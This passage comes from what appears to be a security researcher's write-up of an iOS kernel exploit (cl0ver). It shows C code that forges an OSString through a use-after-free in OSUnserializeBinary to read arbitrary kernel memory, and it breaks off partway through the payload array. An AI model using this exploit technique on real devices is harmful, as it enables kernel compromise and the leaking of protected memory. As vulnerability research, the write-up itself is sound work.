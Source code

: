 *The full implementation of this can be found in the `uaf_panic_leak_DATA_const_base` and `uaf_panic_read` functions in [`uaf_panic.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/uaf_panic.c).*

## Part Two: Dumping the kernel

With the `OSString` vtable and the kernel slide both known, we can construct valid(-ish) strings that point to wherever we choose.  
Let's see how we can use that to read a fixed amount of memory from an arbitrary address:

We start with an OSString:

    OSString osstr;

Obviously it's gonna need its vtable and the address we want to read from:

    osstr.vtab = 0xffffff80044ef1f0 + get_kernel_slide(); // or 0x803ece94
    osstr.string = address;

I'll get back to the length later, for now we're just gonna use the maximum MIG message size, i.e. 4096 bytes:

    osstr.length = 0x1000;

Now there's two fields left: `retainCount` and `flags`.

The retain count we set to something unrealistically high, so that a call to `release()` is never actually going to free anything. We want this because our `OSString` is actually the buffer of an `OSData`, which will be managed and freed as such, and interfering with that would only cause chaos and destruction.

    osstr.retainCount = 100;

As for flags, there is exactly one recognised by `OSString`: `kOSStringNoCopy`, indicating the string doesn't own its buffer and will not free or modify it.  
I'm not sure it even makes a difference in this case, but we might as well set it:

    osstr.flags = kOSStringNoCopy;

Now we have to build a payload for `OSUnserializeBinary`. Conceptually, it should suffice to have a dictionary containing:

* A `kOSSerializeString` as key, which will get freed.
* A `kOSSerializeData` right after it, whose buffer will replace it.
* A name by which we're later gonna retrieve bytes from our address.
* A `kOSSerializeObject` pointing to the overwritten string.

If you test this in practice, however, you'll always get a panic. This is because during deallocation, when `release()` gets called on the last of the above, the `OSData` before it will have been deallocated already, along with its buffer, which causes the underlying memory to get poisoned, so that a call to `release()` will end up trying to branch to some `0xdeadbeef`.  
We can work around that, however, by adding another `kOSSerializeObject` to the end of the dict, referencing the `OSData`, causing it to be retained until after `release()` has been called on the reference to the overwritten string.

Implementing all of the above, we get:

    OSString osstr =
    {
        .vtab = 0xffffff80044ef1f0 + get_kernel_slide(),                // or 0x803ece94
        .retainCount = 100,
        .flags = kOSStringNoCopy,
        .length = 0x1000,
        .string = address,
    };
    uint32_t *data = (uint32_t*)&osstr;
    uint32_t dict[11 + sizeof(OSString) / sizeof(uint32_t)] =
    {
        kOSSerializeMagic,                                              // Magic
        kOSSerializeEndCollection | kOSSerializeDictionary | 6,         // Dictionary with 6 entries
